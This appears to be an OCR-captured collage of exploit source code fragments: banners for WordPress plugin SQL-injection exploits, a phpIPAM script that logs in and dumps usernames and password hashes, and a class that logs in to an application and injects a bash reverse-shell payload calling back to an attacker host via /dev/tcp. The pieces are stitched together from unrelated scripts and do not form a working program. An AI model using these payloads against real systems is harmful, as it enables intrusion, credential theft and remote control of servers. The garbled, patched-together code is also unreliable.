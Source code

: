 execve(BIN, argv, envp);

return 0;
                                                    [+] Modern Events Calendar Lite SQL-Injection
                                                    [@] Developed by Ron Jost (Hacker5preme)
                       [+] RegistrationMagic SQL Injection
                       [@] Developed by Ron Jost (Hacker5preme)                                                         
try:
    r = requests.post(u, verify=False, timeout=10, headers={"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}, data={"ipamusername":user, "ipampassword":password})
    headers = r.headers['Set-Cookie']
    headers_string = headers.split(';')
    for s in headers_string:
        if "phpipam" in s and "," in s: # double same cookie Check LoL
            cookie = s.strip(',').lstrip()
            return cookie
except Exception as e:
    print(f"[+] {e}")
headers = {
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": cookie
}

try:
    r = requests.post(xpl, verify=False, timeout=10, headers=headers, data=data)
    if "admin" in r.text or "rounds" in r.text:
        print("[+] Vulnerable..\n\n")
        print(f"> Users and hash passwords: \n\n{r.text}")
        print("\n\n> DONE <")
except Exception as e:
    print(f"[-] {e}")
def __init__(self, target_ip, target_port, localhost, localport):
    self.target_ip = target_ip
    self.target_port = target_port
    self.localhost = localhost
    self.localport = localport

def exploitation(self):
    payload = """{"spider":"`/bin/bash -c 'bash -i >& /dev/tcp/""" + localhost + """/""" + localport + """ 0>&1'`"}"""

    #Login to the app (getting auth token)
    url = "http://" + target_ip + ":" + target_port
    r = requests.Session()
    print("[*] Resolving URL...")
    r1 = r.get(url)
    time.sleep(3)
    print("[*] Logging in to application...")
    r2 = r.post(url + "/api/user/auth", json={"username":login,"password":password}, allow_redirects=True)
    time.sleep(3)
    if (r2.status_code == 200):
        print('[*] Login successful! Proceeding...')
    else:
        print('[*] Something went wrong!')
        quit()
